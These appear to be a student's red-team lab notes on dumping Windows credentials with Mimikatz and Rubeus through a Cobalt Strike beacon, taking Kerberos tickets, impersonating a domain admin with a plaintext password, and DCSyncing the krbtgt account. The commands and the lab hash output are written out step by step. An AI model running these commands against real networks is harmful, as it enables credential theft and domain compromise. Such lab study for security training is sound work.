 ## Mimikatz
Dumped Mimikatz for tokens to elevate - nothing really usable here just local admin hashes, already system so dont need admin. L
```powershell
beacon> mimikatz token::elevate ; lsadump::sam

ADMINISTRATOR NTLM HASH:
fc525c9683e8fe067095ba2ddc971889
```
![[Pasted image 20230825150150.png]]
Mimikatz to dump logonpasswords and get NTLM hashes
```powershell
beacon> mimikatz !sekurlsa::logonpasswords
Session           : Batch from 0
User Name         : jking
Domain            : DEV
Logon Server      : DC-2
Logon Time        : 8/31/2022 11:49:48 AM
SID               : S-1-5-21-569305411-121244042-2357301523-1105
	msv :
	 [00000003] Primary
	 * Username : jking
	 * Domain   : DEV
	 * NTLM     : 59fc0f884922b4ce376051134c71e22c
	 * SHA1     : 74fa9854d529092b92e0d9ebef7ce3d065027f45
	 * DPAPI    : 0837e40088a674327961e1d03946f5f2
```
![[Pasted image 20230825150804.png]]

## Kerberos Encryption Keys
Grabbing Kerberos Encryption keys
- For me the AES didn't show, it bugged but it's the longest `des_cbc_md4`
```powershell
beacon> mimikatz !sekurlsa::ekeys
```
![[Pasted image 20230825151153.png]]
Manually added AES256 key to Cobalt Strike Credentials
![[Pasted image 20230825151712.png]]
## Extracting Kerberos Tickets using Rubeus
Extracting Luid's from users to pull kerberos TGT's from
```powershell
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage

JKING luid: 0x9e0de
BFARMER luid: 0x3c1d2
```
![[Pasted image 20230825153210.png]]
Utilizing jking's luid to extract kerberos TGT
- Base 64 key was too long for entire screenshot
- `/nowrap` is used to display on one line to make copying alot easier.
```powershell
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x9e0de /service:krbtgt /nowrap
```
![[Pasted image 20230825153804.png]]
Added the Base64EncodedTicket into CobaltStrike Credential Holder due to inability to copy from vm to host.
![[Pasted image 20230825154129.png]]
## DCsync
Impersonated nlamb a domain administrator
```powershell
beacon> make_token DEV\nlamb F3rrari
```
![[Pasted image 20230825154437.png]]
Utilized DCsync to extract NTLM and AES keys for the krbtgt account.
```powershell
beacon> dcsync dev.cyberbotic.io DEV\krbtgt
# credentials were also added to the Cobalt Strike credentials
Credentials:
  Hash NTLM: 9fb924c244ad44e934c390dc17e02c3d
  aes256_hmac       (4096) : 51d7f328ade26e9f785fd7eee191265ebc87c01a4790a7f38fb52e06563d4e7e
```
![[Pasted image 20230825154641.png]]
